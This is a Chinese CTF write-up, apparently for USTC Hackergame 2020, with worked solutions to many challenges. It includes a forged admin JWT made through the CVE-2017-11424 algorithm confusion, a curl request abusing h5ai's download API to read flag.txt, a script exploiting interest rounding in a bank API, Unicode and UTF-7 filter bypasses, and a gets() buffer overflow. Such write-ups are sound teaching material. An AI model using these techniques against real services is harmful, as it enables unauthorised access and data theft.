



# 数理基础不扎实的 Write Up

## 猫咪问答++

> 1. 以下编程语言、软件或组织对应标志是哺乳动物的有几个？

啊这，太多了先跳过

> 2. 第一个以信鸽为载体的 IP 网络标准的 RFC 文档中推荐使用的 MTU (Maximum Transmission Unit) 是多少毫克？

查了一下发现用信鸽当载体的 RFC 还不止一个~~大佬一天有 28 小时~~。题目说了第一个，那就是 [rfc1149](https://tools.ietf.org/html/rfc1149) 了

> The MTU is variable, and paradoxically, generally increases with increased carrier age. A typical MTU is **256** milligrams.

> 3. USTC Linux 用户协会在 2019 年 9 月 21 日自由软件日活动中介绍的开源游戏的名称共有几个字母？

很容易在 [USTC LUG 活动记录](https://lug.ustc.edu.cn/wiki/lug/events/)里找到 [TEEWORLDS](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2019.09.21_SFD/slides/%E9%97%AA%E7%94%B5%E6%BC%94%E8%AE%B2/Teeworlds/teeworlds.pdf) 游戏，共 9 个字母

> 4. 中国科学技术大学西校区图书馆正前方（西南方向） 50 米 L 型灌木处共有几个连通的划线停车位？

题目特地为这题做了两个提示

> 提示：正如撸猫不必亲自到现场，解出谜题也不需要是科大在校学生。

> 提示：建议身临其境。

因此可以联想到`百度街景`这个服务，搜索[目标位置](https://map.baidu.com/poi/%E4%B8%AD%E5%9B%BD%E7%A7%91%E5%AD%A6%E6%8A%80%E6%9C%AF%E5%A4%A7%E5%AD%A6%E5%9B%BE%E4%B9%A6%E9%A6%86/@13053883.94,3720309.74,19z#panoid=09010500121705221534309496D&panotype=street&heading=339.15&pitch=-5.97&l=19&tn=B_NORMAL_MAP&sc=0&newmap=1&shareurl=1&pid=09010500121705221534309496D&psp=%7B%22PanoModule%22%3A%7B%22markerUid%22%3A%22b73e97ed574afa81afee7a4e%22%7D%7D)然后数一下，一共 9 个停车位。

> 5. 中国科学技术大学第六届信息安全大赛所有人合计提交了多少次 flag？

这题的答案在比赛开始前的宣传文章里有

> 在去年的第六届信息安全大赛中，总共有 2682 人注册，1904 人至少完成了一题。比赛期间所有人合计提交了 17098 次 flag

好了，我们现在还有一道数哺乳动物没有做，自己数是不可能的，去网页中打开开发者工具，尝试发送一次请求，右键把请求复制成 curl 然后复制一个 shell 的 for 循环，马上就得到 flag

```sh
for ((i=3;i<=23;i++)); do curl 'http://202.38.93.111:10001/' \
  --silent \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: PHPSESSID=xxxxxxxxxxxx; session=xxxxxxxxxxxxxxxxx' \
  --data-raw "q1=$i&q2=256&q3=9&q4=9&q5=17098" | grep 'flag{'; done

# flag{xxxxxxxx_G00G1e_1s_y0ur_fr13nd_xxxxxxxxxx}
```

## 2048

查看源码发现虽然加载了一大堆 js 但是出题人很贴心地给了提示

```html
<!-- 
    changelog:
    - 2020/10/31 getflxg @ static/js/html_actuator.js
  -->
```

点开对应的 js 可以翻到获取 flag 的这部分代码：

```js
HTMLActuator.prototype.message = function (won) {
  var type    = won ? "game-won" : "game-over";
  var message = won ? "FLXG 大成功！" : "FLXG 永不放弃！";

  var url;
  if (won) {
    url = "/getflxg?my_favorite_fruit=" + ('b'+'a'+ +'a'+'a').toLowerCase();
  } else {
    url = "/getflxg?my_favorite_fruit=";
  }
```

看了下参数，当然是 `won` 啦。在浏览器控制台敲入 `HTMLActuator.prototype.message(1)` 就能在网络标签页找到包含 `flxg{xxxxxxx-FLXG-xxxxxxxxxx}` 的请求。

顺便一提，出题人在这里用玩了个 js 的梗，用 `+'a'` 得到的是 `NaN` 然后拼接成 `'b' + 'a' + NaN + 'a'` 最后转小写得到最喜欢的水果 `banana`~~太冷了~~。

## 从零开始的记账工具人

点击下载，居然是个 `xlsx` 文件，表示没安装 office 很不开心，找个在线网站转成 `csv` 格式然后写脚本。

<details>

```js
const numMap = {
  ...'零壹贰叁肆伍陆柒捌玖'
    .split('')
    .reduce((acc, cur, i) => ({ ...acc, [cur]: i }), {}),
  佰: 100,
  拾: 10,
  元: 1,
  角: 0.1,
  分: 0.01,
}

const parse = (str) => {
  let sum = 0
  ;['佰', '拾', '元', '角', '分'].reduce((acc, cur) => {
    // 拾陆元
    if (cur === '拾' && str.startsWith('拾')) {
      sum += 10
      return str.slice(1)
    }
    const rate = numMap[cur]
    let [head, tail] = acc.split(cur)
    if (tail === undefined) return head
    // 贰拾元伍角
    if (head === '') return tail
    // 零陆分
    if (head.startsWith('零')) head = head.slice(1)
    sum += rate * numMap[head]
    // console.log(head, cur ,tail , sum)
    return tail
  }, str)
  if (isNaN(sum)) throw new Error(str)
  console.log(str, sum)
  return sum
}

const input = `
玖元壹角玖分,1
拾陆元陆角贰分,2
叁拾叁元陆角陆分,1
叁元陆角贰分,1
肆元叁角贰分,8
壹佰零叁元零玖分,1
`

const data = input
  .trim()
  .split('\n')
  .map((str) => str.split(','))

data.map(([n, cnt]) => parse(n) * cnt).reduce((acc, cur) => acc + cur, 0)

// flag{17119.13}
```

</details>

## 超简单的世界模拟器

这题故意没给 nc 入口而且执行时会展示过程，很明显希望我们在本地模拟。所以花时间写一个脚本模拟，想偷懒也可以借助现成的库。然后 fuzz 输入区域就行了，两小题的解都是秒出。

<details>

```js
// gameOfLife.js

const LIVE = 1
const DEAD = 0
const DIRECTIONS = [
  [0, 1],
  [1, 0],
  [-1, 0],
  [0, -1],
  [1, 1],
  [-1, -1],
  [-1, 1],
  [1, -1],
]

const game = {
  /**
   * @param {number} h
   * @returns {boolean[][]}
   */
  create(w, h) {
    const world = Array.from({ length: h }, () => Array(w).fill(DEAD))
    return world
  },
  /**
   * @param {boolean[][]} world
   * @returns {boolean[][]}
   */
  step(world) {
    const h = world.length
    const w = world[0].length
    const newWorld = Array.from({ length: h }, () => Array(w).fill(DEAD))
    for (let i = 0; i < h; i++) {
      for (let j = 0; j < w; j++) {
        const cell = world[i][j]
        let neighbors = 0
        for (const [dx, dy] of DIRECTIONS) {
          const x = i + dx
          const y = j + dy
          if (x < 0 || x >= w || y < 0 || y >= h) continue
          if (world[x][y]) neighbors++
        }
        if (cell) {
          // if (neighbors === 0 || neighbors === 1 || neighbors === 4) {} // dead
          if (neighbors === 2 || neighbors === 3) {
            newWorld[i][j] = LIVE
          }
        } else if (neighbors === 3) {
          newWorld[i][j] = LIVE
        }
      }
    }
    return newWorld
  },
  /**
   * @param {boolean[][]} world
   */
  print(world, end = '--------------------') {
    world.forEach((row) =>
      console.log(row.map((c) => (c === LIVE ? '1' : ' ')).join(''))
    )
    console.log(end)
  },
}

/**
 * @param {boolean[][]} world
 */
const check1 = (world) => {
  return (
    world[5][45] === 0 ||
    world[5][46] === 0 ||
    world[6][45] === 0 ||
    world[6][46] === 0
  )
}

/**
 * @param {boolean[][]} world
 * @returns {boolean}
 */
const check2 = (world) => {
  return (
    world[26][45] === 0 ||
    world[26][46] === 0 ||
    world[27][45] === 0 ||
    world[27][46] === 0
  )
}

/**
 * @param {boolean[][]} world
 * @returns {boolean[][]}
 */
const fastStep = (world, g = 200) => {
  while (g--) {
    world = game.step(world)
  }
  return world
}

const randomBoolean = (threshold = 0.5) => {
  return Math.random() > threshold
}

const randomPayload = (threshold = 0.5) => {
  const n = 15
  const payload = Array.from({ length: n }, () =>
    Array(n)
      .fill(0)
      .map(() => +randomBoolean(threshold))
  )
  return payload
}

const main = () => {
  let world = game.create(50, 50)

  // target
  world[5][45] = 1
  world[5][46] = 1
  world[6][45] = 1
  world[6][46] = 1

  world[26][45] = 1
  world[26][46] = 1
  world[27][45] = 1
  world[27][46] = 1

  // payload
  const payload = randomPayload()

  for (let i = 0; i < payload.length; i++) {
    for (let j = 0; j < payload[i].length; j++) {
      world[i][j] = +payload[i][j]
    }
  }

  world = fastStep(world)

  const c1 = check1(world)
  const c2 = check2(world)
  if (c1) console.log('check1!')
  if (c2) console.log('check2!')
  if (c1 && c2) {
    console.log('const payload = ')
    console.log(payload.map((row) => row.join('')))
    console.log(`socket.send(payload.join('\\n') + '\\n')`)
  }

  return c1 && c2
}
while (true) {
  const check = main()
  if (check) break
}
```

</details>

最后的找到的 payload 和浏览器的提交脚本：

```js
// console

const payload = [
  '000000001111100',
  '111111100010001',
  '111100101101010',
  '001101110110110',
  '110110110110001',
  '001100001000010',
  '100000100111000',
  '110011110011100',
  '101110110111001',
  '101110111000000',
  '011010110011011',
  '111101111100100',
  '001100010110011',
  '100111100110100',
  '100111001001101',
]

// socket.send(token + "\n")
socket.send(payload.join('\n') + '\n')

// flag1
// flag{D0_Y0U_l1k3_g4me_0f_l1fe?_xxxxxxx}
// flag2
// flag{1s_th3_e55ence_0f_0ur_un1ver5e_ju5t_c0mputat1on?_xxxxxxxx}
```

## 从零开始的火星文生活

提示是 `GBK` ,试了各种组合。。。文件开头的回车居然是误导用的。

[](<https://gchq.github.io/CyberChef/#recipe=Encode_text('Simplified%20Chinese%20GBK%20(936)')Encode_text('ISO-8859-1%20Latin%201%20Western%20European%20(28591)')Decode_text('Simplified%20Chinese%20GBK%20(936)')&input=CuiEpuiEqum5v%2BalvOiEneiEneiEleiEoyDmi6LohKDmi6LosKnmi6LojKvmi6Lmr5vmi6LmsJPmi6Losozmi6Lojr3mi6LosKnmi6Lpk4bmi6LmsJMg56KM6ISb6Lev6ZWB6ISm5bi96ISd5qKF5oui5Y2i6ISl56KM56KM6ZmG6ISV6ISj6ISj55yJ6ISZ6ISf56KM6ISbIOaLouW/meaLouefm%2BaLouiwqeaLouiOveaLouWNouiEp%2BiEsOiEreiEt%2BiEpuiEquaOs%2BiEqSDmi6Llv5nmi6Lnn5vmi6LosKnmi6Lojr0g6Lev5Z6E6LWC6YW26ISb6Iyr5oui5r2eCuaLouW/meaLouefm%2BaLouiwqeaLouiOveaLouayoeaLouiEoOaLoum6k%2BaLouaemuaLoumygeaLouiEveaLouiEneaLoueOq%2BaLouiEpuaLouiEveaLouaiheaLouWNpOaLouiEreaLoueMq%2BaLouiEveaLoumygeaLouWNr%2BaLouiMq%2BaLouaOs%2BaLouebsuaLouWNpOaLouWNr%2BaLouiOveaLouiEveaLoum6k%2BaLouiEpuaLouebsuaLouiEveaLouebsuaLoumygeaLouiMq%2BaLouaOs%2BaLouiEm%2BaLouWNpOaLouWNr%2BaLouiEn%2BaLouiEveaLoum5v%2BaLouW4veaLouiEm%2BaLouiZj%2BaLouiEquaLoui1guaLoueMq%2BaLoui0uOaLouWqkgrpqbTnn5vohKDmpbzljaTohKDohKDnnInohJ3pmYbohKTnr5PohKTosKnpmYbnpoTmjrPohKHmi6LpmoYK6JmP56aE6ISq6ZmL6ISt6IS15o6z6ISp6ISu6IqS6Lev6IS76ISo6ISc6ISn5Z6E6ISz6ZmL6Lev5Z6E6LWC6YW26ISd55uy6ISj5rKh6ISg6ISj6ISV6ISj5oui5Y2i6ISq6ZmL6ISi6ISf5Y2k56aE6Lev5Z6E6ISn6ISw5oiu6ISl6ISt6Iyr6LWC6IqS6ISV6ISj5oui6ZqGCg>)

## 自复读的复读机

搜索到一篇文章 [Self Printing Programs in Python](https://amir.rachum.com/blog/2012/08/05/self-printing-programs-in-python/) ，找个可以在比赛平台上使用的正向版，然后用`[::-1]`一顿瞎搞得到反向版本，提交上去发现我们多打印了末尾的换号 `\n`，为`print`加上`end=""`参数得到第一个 flag。

既然能得到代码本身，那只要把上一问打印的代码作为参数丢给 sha256 就能得到第二个 flag 了。

```python
# 第一问

# 正向
print((lambda s:s%s)('print((lambda s:s%%s)(%r))'))
# 反向
print((lambda s:s%s)('print((lambda s:s%%s)(%r)[::-1], end="")')[::-1], end="")
# flag{Yes!_Y0U_h4v3_a_r3v3rs3d_Qu1ne_xxxxxxxxxx}

# 第二问

# sha256 参数部分
(lambda s:s%s)('print(__import__("hashlib").sha256((lambda s:s%%s)(%r).encode()).hexdigest(), end="")')

# 完整 payload
print(__import__("hashlib").sha256((lambda s:s%s)('print(__import__("hashlib").sha256((lambda s:s%%s)(%r).encode()).hexdigest(), end="")').encode()).hexdigest(), end="")
# flag{W0W_Y0Ur_c0de_0utputs_1ts_0wn_sha256_xxxxxxxxxx}
```

## 233 同学的字符串工具

### 字符串大写工具

因为之前了解过大小写转换的一些相关资料，所以知道 Unicode 字符在大小写转换的时候可能存在 [case mapping](https://www.w3.org/TR/charmod-norm/#definitionCaseFolding)，因此只要找一个大写变化之后能替代 `FLAG` 的字符就行了。

```js
// console

// 可以在这个网站上找到所有小写字符然后遍历搜索符合条件的字符
// https://www.compart.com/en/unicode/category/Ll

Array.from(document.querySelectorAll('a.content-item.card'))
  .map((i) => i.children[1].innerText)
  .find(
    (i) =>
      'FLAG'.includes(i.toUpperCase()) &&
      !['F', 'L', 'A', 'G', 'f', 'l', 'a', 'g'].includes(i)
  )
// "fl"
// "fl".toUpperCase() // "FL"
```

也可以直接遍历全部 Unicode 字符：

```python
import sys

for i in range(sys.maxunicode + 1):
    c = chr(i)
    up = c.upper()
    if up in 'FLAG' and c not in 'FLAGflag':
        print(c, up)
        # fl FL
        break

# flag{badunic0debadbad_xxxxxx}
```

### UTF-7 到 UTF-8 转换工具

查了下 UTF-7 的相关资料，发现在 UTF-7 中，a-z 是无须编码的，但是我们依然可以按照其他字符的编码规则把它们编码

```
# 编码 'a'
+AGE-
# 输入
fl+AGE-g
# flag{please_visit_www.utf8everywhere.org_xxxxx}
```

## 233 同学的 Docker

这题就像是把密码提交到了 Git 上的番外版。。。

```sh
# 省略安装 docker 过程。。。
# 先把镜像拉下来
docker pull 8b8d3c8324c7/stringtool
# 查看一下
docker image inspect 8b8d3c8324c7/stringtool
# 省略一大堆输出，不了解 docker 可以挨个查看打印出来的目录，我最后在打印的 LowerDir 中找到了 flag
tree /var/lib/docker/overlay2/xxxxxxxxxxxxxxxx

/var/lib/docker/overlay2/xxxxxxxxxxxxxxxx
├── committed
├── diff
│   └── code
│       ├── app.py
│       ├── Dockerfile
│       └── flag.txt
├── link
├── lower
└── work

cat /var/lib/docker/overlay2/xxxxxxxxxxxxxxxx/diff/code/flag.txt
# flag{Docker_Layers!=PS_Layers_hhh}
```

## 狗狗银行

思考时间最久的题之一，一开始按照往年思路尝试负数、大数、并发均无效。仔细琢磨后终于发现了漏洞在四舍五入的部分，只要让利息超过 `0.5 狗` 就能得到 `1 狗` 的利息，而储蓄卡利息翻倍之后（0.6%）恰好超过信用卡利息（0.5%）。所以我们需要开一张信用卡用于借款，然后开大量 `167 狗` 的储蓄卡薅利息，同时每天把赚出来的利息转回信用卡还款防止复利爆炸。

<details>

```js
// console

const token = 'xxxxxxxxx'
const url = 'http://202.38.93.111:10100/'

// debit | credit
const create = async (type = 'debit') =>
  fetch('/api/create', {
    headers: {
      authorization: 'Bearer ' + token,
      'content-type': 'application/json;charset=UTF-8',
    },
    body: JSON.stringify({ type }),
    method: 'POST',
  })

const transfer = async (src, dst = 2, amount = -167) =>
  fetch('/api/transfer', {
    headers: {
      authorization: 'Bearer ' + token,
      'content-type': 'application/json;charset=UTF-8',
    },
    body: JSON.stringify({ src, dst, amount }),
    method: 'POST',
  })

const eat = async (account = 2) =>
  fetch('/api/eat', {
    headers: {
      authorization: 'Bearer ' + token,
      'content-type': 'application/json;charset=UTF-8',
    },
    body: JSON.stringify({ account }),
    method: 'POST',
  })

const sleep = (time = 100) => new Promise((res) => setTimeout(res, time))

const init = async () => {
  await create('credit')
  const creditCnt = 170
  for (let i = 3; i <= creditCnt; i++) {
    create()
  }

  for (let i = 3; i <= creditCnt; i++) {
    transfer(i)
    await sleep(50)
  }
  transfer(1, 2, 1000)
}

const main = async () => {
  await init()
  console.log('init finished!')
  await sleep()

  for (let d = 0; d < 100; d++) {
    console.log('day', d)
    eat()
    await sleep()
    for (let i = 3; i <= creditCnt; i++) {
      transfer(i, 2, 1)
      await sleep(50)
    }
    await sleep()
  }
}

main()

// flag{W0W.So.R1ch.Much.Smart.xxxxxxx}
```

</details>

## 来自一教的图片

根据提示 `傅里叶光学` 猜测图片使用了傅里叶变换，搜索相关工具查找到 [ImageJ](https://imagej.nih.gov/ij/) ，丢进去 FFT 一下就能找到 flag，最后的图片如果不好读也可以借助 PS 的`曲线`和`偏移`功能帮助抄写。

```
# 参考步骤
ImageJ -> Process -> FFT

PS -> Filter -> Other -> Offset

flag{Fxurier_xptics_is_fun}
```



## 超简陋的 OpenGL 小程序

瞎调把视角移动到墙后面，这时只能看清一半的 flag，需要把光源也调过去 `flag{glGraphicsHappy(233);}` ~~题目不够难导致 OpenGL 入门失败~~。

```diff
// basic_lighting.fs
    vec3 lightDir = normalize(lightPos - FragPos);
+   lightDir.z = lightDir.z * -8;

// basic_lighting.vs
    FragPos = vec3(model * vec4(aPos, 1.0));
+   FragPos.z =  FragPos.z * -5;
```



## 生活在博弈树上（部分）

查看代码发现用了 `gets` ，很明显的栈溢出，但是不会 pwn ，于是尝试输入大量 `1` 占满缓冲区，居然成功打出了 `flag{easy_gamE_but_can_u_get_my_shel1}` ~~入门 pwn 失败~~。

```c
    char input[128] = {};  // input is large and it will be ok.
    gets(input);
```

第二小题是 [ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/)，溜了溜了。

## 普通的身份认证器

题目提示 `老旧 Python 网站`、`身份认证`、`依赖的版本` 配合网站的注释 `<!-- Powered by FastAPI, Axios and Vue.js -->` 可以知道这题是想让我们找到 [FastAPI](https://fastapi.tiangolo.com/) 的 jwt 漏洞。

用 `python jwt vulnerability` 为关键字搜索了解相关资料，尝试把 `alg` 改成 `none` ，经过测试~~和观察题目通过人数~~推断行不通。

深入搜索发现 [CVE-2017-11424](https://nvd.nist.gov/vuln/detail/CVE-2017-11424) 符合我们的利用条件。但是我们还缺少服务器的 public key，可以通过是读 FastAPI 文档知道网站会在 `/docs` 目录下自动生成 API 文档~~或者使用 [webdirscan
](https://github.com/TuuuNya/webdirscan) 之类的工具扫描网站目录~~，然后从文档里的 `debug` 接口获得公钥。

在 [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode(/disabled)JWT_Sign('-----BEGIN%20RSA%20PUBLIC%20KEY-----%5CnMIICCgKCAgEAn/KiHQ%2B/zwE7kY/Xf89PY6SowSb7CUk2b%2BlSVqC9u%2BR4BaE/5tNF%5CneNlneGNny6fQhCRA%2BPdw1UJSnNpG26z/uOK8%2BH7fMb2Da5t/94wavw410sCKVbvf%5Cnft8gKquUaeq//tp20BETeS5MWIXp5EXCE%2BlEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr%5Cn%2BxH9147FZqOa/17PYIIHuUDlfeGi%2BIu7T6a%2BQZ0tvmHL6j9Onk/EEONuUDfElonY%5CnM688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd%5Cn46Fp1ff1zBn4sZTfPSOus/%2B00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s%5CneDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe%2BKbodQL%5Cn3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju%2B5ns%5CnQcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb%5CnpBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr%2BOmFJPW/9k2RAv7KEFv%5CnFCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj%2BbZsgwFllYeD90VQU8Ds%2BKkCAwEAAQ%3D%3D%5Cn-----END%20RSA%20PUBLIC%20KEY-----%5Cn','HS256')&input=eyJzdWIiOiAiYWRtaW4iLCJleHAiOiAyNjA0NzQxMzgzfQ) 上利用公钥给自己的 payload 加密 `{"sub": "admin","exp": 2604741383}` 这里的 exp 可以随便填个不会过期的数字了，然后提交得到 `flag{just_A_simple_Json_Web_T0ken_exp1oit_xxxxxx}`

漏洞的原理可以参考 [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## 超简易的网盘服务器

通过观察 dockerfile 发现小 c 把 h5ai 的文件复制到 `/Public` 目录下：

```sh
# dockerfile
cp -rp /var/www/html/_h5ai /var/www/html/Public/_h5ai
```

而在 nginx 配置中没有限制 php 的访问，所以我们可以直接访问 php 文件调用 h5ai 的[下载 API](https://github.com/lrsjng/h5ai/blob/master/src/_h5ai/private/php/core/class-api.php#L23)

```sh
curl 'http://202.38.93.111:10120/_h5ai/public/index.php' --data-raw 'action=download&as=flag.txt.tar&type=php-tar&baseHref=%2F&hrefs=&hrefs%5B0%5D=%2Fflag.txt' --output -

# flag.txt
# 0000755 0000000 0000000 00000000030 13744647043 007466  0
# ustar 00
# flag{super_secure_cloud}
```

## 超安全的代理服务器（部分）

使用 chrome 访问这个地址 `chrome://net-export/` 点击开始记录日志之后刷新一下网站，然后分析记录下来的日志，搜索一下很容易就能找到这条可疑的日志，访问地址得到 `flag{d0_n0t_push_me}`

```json
{
  "params": {
    "headers": [
      ":method: GET",
      ":scheme: https",
      ":authority: 146.56.228.227",
      ":path: /8a71e1d0-67e7-4813-bc96-dc03b425d392"
    ],
    "id": 1,
    "promised_stream_id": 2
  },
  "phase": 0,
  "source": { "id": 119026, "start_time": "137004112", "type": 9 },
  "time": "137004129",
  "type": 206
}
```

## 不经意传输（部分）

观察代码发现只要我们控制输入参数 `v` 令 `v = x0` 就能原封不动获得 `m0`。

```python
    # ...
    print("x0 =", x0)
    # ...
    v = int(input("v = "))
    # ...
    m0_ = (m0 + pow(v - x0, key.d, key.n)) % key.n
    # ...

# flag{U_R_0n_Th3_ha1f_way_0f_succe55_w0rk_h4rder!_xxxxxxx}
```

## 附录

使用 python 的 socket 模板

```python
import socket

target = ('xxx.xx.xx.xxx', 80) # ip port
token = 'xxxxxxxxxxx'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(target)
# s.sendall(token)

while True:
    data = s.recv(1024)
    if not data:
        break
    print('> ', data)
    if 'Please input your token:' in str(data):
        s.sendall(token.encode())
        s.sendall('\n'.encode())
        print('<', token)

s.close()
```
